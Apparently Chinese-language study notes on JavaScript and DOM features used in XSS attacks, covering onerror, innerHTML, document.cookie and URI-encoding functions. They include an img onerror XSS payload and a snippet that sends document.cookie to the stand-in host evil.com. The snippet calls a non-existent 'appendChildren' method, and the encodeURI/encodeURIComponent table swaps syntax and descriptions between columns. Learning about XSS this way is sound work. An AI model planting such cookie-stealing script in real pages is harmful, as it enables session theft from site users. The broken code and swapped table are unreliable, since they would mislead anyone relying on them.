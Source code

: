 ## JavaScript

#### 常见属性

##### img

* onerror：外部文件加载错误时执行

  ~~~html
  <img src=# onerror=alert(/xss2/)  />
  ~~~

#### HTML DOM

##### innerHTML属性

>Element.innerHTML 属性设置或获取HTML语法表示的元素的后代。
>
>Note: 如果一个 `<div>`,` <span>`, 或 `<noembed> `节点有一个文本子节点，该节点包含字符 (&), (<),  或(>), innerHTML 将这些字符分别返回为&amp;, &lt; 和 &gt; 。使用Node.textContent  可获取一个这些文本节点内容的正确副本。
>
>如果要向一个元素中插入一段 HTML，而不是替换它的内容，建议使用 `insertAdjacentHTML() `方法。
>
>>使用 `insertAdjacentHTML `插入用户输入的HTML内容的时候，需要转义之后才能使用。
>>
>>如果只是为了插入文本内容（而不是HTML节点），不建议使用这个方法，建议使用`node.textContent` 或者 `node.insertAdjacentText()`。因为这样不需要经过HTML解释器的转换，性能会好一点。

##### document对象

* createElement

  > 新创建的 Element 节点，具有指定的标签名。

* cookie

  > 获取并设置与当前文档相关联的 cookie。

* body

  > 返回当前文档中的`<body>`元素或者`<frameset>`元素
  >
  > >`<frame> `是 HTML 元素，它定义了一个特定区域，另一个 HTML 文档可以在里面展示。[已经从 Web 标准中删除，`<iframe> `(HTML内联框架元素)更应该提倡。]
  > >
  > >`<frameset> `是一个用于包含 <frame> 的 HTML 元素。[已经从 Web 标准中删除]

  * appendChildren

    > appendChild() 方法向节点添加最后一个子节点。

  ~~~JavaScript
  var img=document.createElement("img");
  img.src="http://www.evil.com/log?"+escape(document.cookie);
  document.body.appendChildren(img);
  ~~~

  

##### submit()方法

> 该方法提交表单的方式与用户单击 Submit 按钮一样；
>
> 表单的 onsubmit 事件句柄不会被调用

#### 常见函数

##### escape

> 对字符串进行编码（对特殊字符编码， * @ - _ + . /除外）。JavaScript1.5中不推荐使用。使用 encodeURI() 或 encodeURIComponent() 代替。

| 函数   | encodeURI()                                       | encodeURIComponent()                                         |
| ------ | ------------------------------------------------- | ------------------------------------------------------------ |
| 功能   | 转义除了`A-Z a-z 0-9 - _ . ! ~ * ' ( )`的所有字符 | 假定一个URI是完整的URI，那么无需对那些保留的并且在URI中有特殊意思的字符进行编码。<br/>encodeURI 会替换所有的字符，但不包括以下字符，即使它们具有适当的UTF-8转义序列：<br/>保留字符`; , / ? : @ & = + $`<br/>非转义的字符`字母 数字 - _ . ! ~ * ' ( )`<br/>数字符号`#` |
| 语法   | encodeURIComponent(str);                          | encodeURI(URI)                                               |
| 参数   | str：String. URI 的组成部分。                     | 一个完整的URI                                                |
| 返回值 | 原字串作为URI组成部分被被编码后的新字符串。       | 一个新字符串, 表示提供的字符串编码为统一资源标识符 (URI)。<br/>无法产生能适用于HTTP GET 或 POST 请求的URI |

~~~javascript
var set1 = ";,/?:@&=+$";  // 保留字符
console.log(encodeURI(set1)); // ;,/?:@&=+$
console.log(encodeURIComponent(set1)); // %3B%2C%2F%3F%3A%40%26%3D%2B%24

var set2 = "-_.!~*'()";   // 不转义字符
console.log(encodeURI(set2)); // -_.!~*'()
console.log(encodeURIComponent(set2)); // -_.!~*'()

var set3 = "#";           // 数字标志
console.log(encodeURI(set3)); // #
console.log(encodeURIComponent(set3)); // %23

var set4 = "ABC abc 123"; // 字母数字字符和空格
console.log(encodeURI(set4)); // ABC%20abc%20123
console.log(encodeURIComponent(set4)); // ABC%20abc%20123
~~~



























参考资料

1. [白帽子讲web安全]()

2. [MDN Web Docs](https://developer.mozilla.org/zh-CN/docs/Web/API/Element/insertAdjacentHTML)

3. [菜鸟教程]()

4. [w3school]()